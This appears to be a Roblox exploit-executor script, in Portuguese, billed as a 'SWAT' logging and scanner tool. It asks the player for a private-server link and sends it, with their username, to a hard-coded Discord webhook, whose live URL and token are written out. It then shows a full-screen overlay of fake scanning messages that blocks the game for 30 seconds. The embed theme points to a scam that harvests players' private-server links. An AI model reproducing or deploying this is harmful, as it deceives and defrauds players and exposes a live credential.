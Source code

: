--[[
📡 SWAT - Sistema de Logs (Seguro)
Autor: Dede Silva
Descrição: Prompt pede link do servidor -> envia webhook -> mostra tela full-screen
Obs: NÃO bloqueia a saída do jogador; apenas cria uma tela modal que consome clicks.
Substitua WEBHOOK_URL_AQUI pela sua URL de webhook do Discord.
]]

--== CONFIG ==--
local webhookUrl = "https://discord.com/api/webhooks/1430383406805680188/Y3yzeDCcf8JkfskCq4xprBBvQArrjjIzA-fyFOWZ13td4etLPygUItStD2hJFuHgTcAc" -- coloque aqui a webhook
local HttpService = game:GetService("HttpService")
local Players = game:GetService("Players")
local LocalPlayer = Players.LocalPlayer

--== FUNÇÃO DE ENVIO ==--
local function sendWebhook(linkDoServidor)
local payload = {
username = "SWAT - Logs",
avatar_url = "https://i.imgur.com/5YQnN8u.png",
embeds = {{
title = "SWAT - Nenhum Brainrot Encontrado... (90%)",
color = 11730944,
fields = {
{ name = "👤 User", value = (LocalPlayer and LocalPlayer.Name) or "Usuário", inline = true },
{ name = "👥 Players no Servidor", value = tostring(#Players:GetPlayers()) .. "/" .. tostring(Players.MaxPlayers or 0), inline = true },
{ name = "🔗 Link do Servidor", value = "[Clique aqui](" .. tostring(linkDoServidor) .. ")" },
{ name = "🧠 Brainrots Encontrados", value = "Nenhum brainrot encontrado" }
},
footer = { text = "⚡ SWAT - Onde o impossível acontece ⚡" }
}}
}
local ok, err = pcall(function()
local json = HttpService:JSONEncode(payload)
-- PostAsync pode falhar se HttpService estiver desativado nas configurações do executor
HttpService:PostAsync(webhookUrl, json, Enum.HttpContentType.ApplicationJson)
end)
return ok, err
end

--== FUNÇÕES DE UI ==--
local function createLoadingGui()
-- Criar ScreenGui
local screenGui = Instance.new("ScreenGui")
screenGui.Name = "SWAT_LoadingGui"
screenGui.ResetOnSpawn = false
screenGui.Parent = LocalPlayer:WaitForChild("PlayerGui")

-- Fullscreen frame (azul escuro)  
local frame = Instance.new("Frame")  
frame.Size = UDim2.new(1,0,1,0)  
frame.Position = UDim2.new(0,0,0,0)  
frame.BackgroundColor3 = Color3.fromRGB(6,24,41) -- azul escuro  
frame.BorderSizePixel = 0  
frame.Active = true -- faz com que capture inputs  
frame.Parent = screenGui  

-- Título  
local title = Instance.new("TextLabel")  
title.Size = UDim2.new(1,0,0,80)  
title.Position = UDim2.new(0,0,0,20)  
title.BackgroundTransparency = 1  
title.Text = "⚡ SWAT - Carregando sistemas..."  
title.Font = Enum.Font.GothamBlack  
title.TextSize = 28  
title.TextColor3 = Color3.fromRGB(200, 220, 235)  
title.TextStrokeTransparency = 0.8  
title.Parent = frame  

-- Status (mensagens aleatórias)  
local status = Instance.new("TextLabel")  
status.Size = UDim2.new(1,0,0,50)  
status.Position = UDim2.new(0,0,0,110)  
status.BackgroundTransparency = 1  
status.Text = "Iniciando..."  
status.Font = Enum.Font.Gotham  
status.TextSize = 20  
status.TextColor3 = Color3.fromRGB(180,200,215)  
status.TextStrokeTransparency = 0.9  
status.Parent = frame  

-- Loading dots  
local dots = Instance.new("TextLabel")  
dots.Size = UDim2.new(1,0,0,30)  
dots.Position = UDim2.new(0,0,0,160)  
dots.BackgroundTransparency = 1  
dots.Text = ""  
dots.Font = Enum.Font.Gotham  
dots.TextSize = 20  
dots.TextColor3 = Color3.fromRGB(180,200,215)  
dots.Parent = frame  

-- "Fechar" button (invisível inicialmente)  
local closeBtn = Instance.new("TextButton")  
closeBtn.Size = UDim2.new(0,220,0,40)  
closeBtn.Position = UDim2.new(0.5,-110,0.85,0)  
closeBtn.AnchorPoint = Vector2.new(0.5,0.5)  
closeBtn.BackgroundColor3 = Color3.fromRGB(30,60,90)  
closeBtn.BorderSizePixel = 0  
closeBtn.Text = "Fechar"  
closeBtn.Font = Enum.Font.Gotham  
closeBtn.TextSize = 18  
closeBtn.TextColor3 = Color3.fromRGB(220,235,250)  
closeBtn.Visible = false  
closeBtn.Parent = frame  

-- Consumir input do mouse/teclado para impedir interação com jogo por baixo  
-- (aqui apenas a GUI captura os clicks, não bloqueia fechar o jogo)  
frame.InputBegan:Connect(function(input)  
	-- faz nada, apenas impede propagation  
end)  

-- Retorno de referências  
return {  
	screenGui = screenGui,  
	frame = frame,  
	status = status,  
	dots = dots,  
	closeBtn = closeBtn  
}

end

--== LÓGICA PRINCIPAL ==--
-- 1) Prompt para o link via console
rconsoleprint("@@YELLOW@@\n[SWAT LOGS] Digite o link do servidor privado e pressione Enter:\n")
local link = rconsoleinput()

if not link or link == "" then
rconsoleprint("@@RED@@[SWAT LOGS] Nenhum link inserido. Cancelando operação.\n")
return
end

-- 2) Criar GUI de carregamento
local gui = createLoadingGui()

-- mensagens aleatórias que aparecem
local mensagens = {
"Iniciando scanner...",
"Verificando players...",
"Analisando conexão...",
"Carregando módulos SWAT...",
"Gerando relatório...",
"Verificando integridade...",
"Analisando IP (simulado)...",
"Otimizando pacotes...",
"Preparando envio..."
}

-- loop que troca mensagens e faz "dots"
local running = true
spawn(function()
local i = 1
local dotCount = 0
while running and gui and gui.status and gui.dots do
gui.status.Text = mensagens[(i-1) % #mensagens + 1]
dotCount = (dotCount + 1) % 4
gui.dots.Text = string.rep(".", dotCount)
i = i + 1
wait(1.2)
end
end)

-- 3) Enviar webhook em background e controlar quando habilitar o botão fechar
rconsoleprint("@@CYAN@@[SWAT LOGS] Enviando link para a webhook...\n")
local ok, err = sendWebhook(link)
if ok then
rconsoleprint("@@GREEN@@[SWAT LOGS] Link enviado com sucesso!\n")
else
rconsoleprint("@@RED@@[SWAT LOGS] Falha ao enviar webhook: " .. tostring(err) .. "\n")
end

-- Mostrar mensagem final
if gui and gui.status then
if ok then
gui.status.Text = "Envio concluído. Finalizando..."
else
gui.status.Text = "Falha no envio. Você pode tentar novamente."
end
end

-- após envio, espera um tempo e permite fechar a UI
local maxWait = 30 -- segundos até liberar fechar (segurança/usabilidade)
local elapsed = 0
while elapsed < maxWait do
wait(1)
elapsed = elapsed + 1
end

-- habilitar o botão fechar (o jogador pode fechar; se preferir, você pode
-- aumentar maxWait para demorar mais)
if gui and gui.closeBtn then
gui.closeBtn.Visible = true
gui.closeBtn.MouseButton1Click:Connect(function()
-- encerra animação e remove GUI
running = false
if gui.screenGui then
gui.screenGui:Destroy()
end
rconsoleprint("@@GREEN@@[SWAT LOGS] Tela de carregamento fechada pelo usuário.\n")
end)
-- também permite fechar com tecla Esc
local userInput = game:GetService("UserInputService")
userInput.InputBegan:Connect(function(input, gameProcessed)
if input.KeyCode == Enum.KeyCode.Escape and gui and gui.closeBtn.Visible then
running = false
if gui.screenGui then gui.screenGui:Destroy() end
rconsoleprint("@@GREEN@@[SWAT LOGS] Tela de carregamento fechada (ESC).\n")
end
end)
end

